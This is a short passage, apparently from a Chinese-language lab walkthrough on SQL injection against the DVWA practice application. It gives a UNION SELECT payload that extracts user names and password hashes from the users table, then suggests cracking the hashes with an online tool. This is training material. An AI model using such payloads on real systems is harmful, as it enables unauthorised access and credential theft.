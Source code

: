6.查询其中的`user` 和`password`

```sql
1' union select user, password FROM dvwa.users  -- '
```

![image-20220417221951565](/img/security/image-20220417221951565.png)

7.使用工具进行哈希解密，如`cmd5`

![image-20220417222100952](/img/security/image-20220417222100952.png)
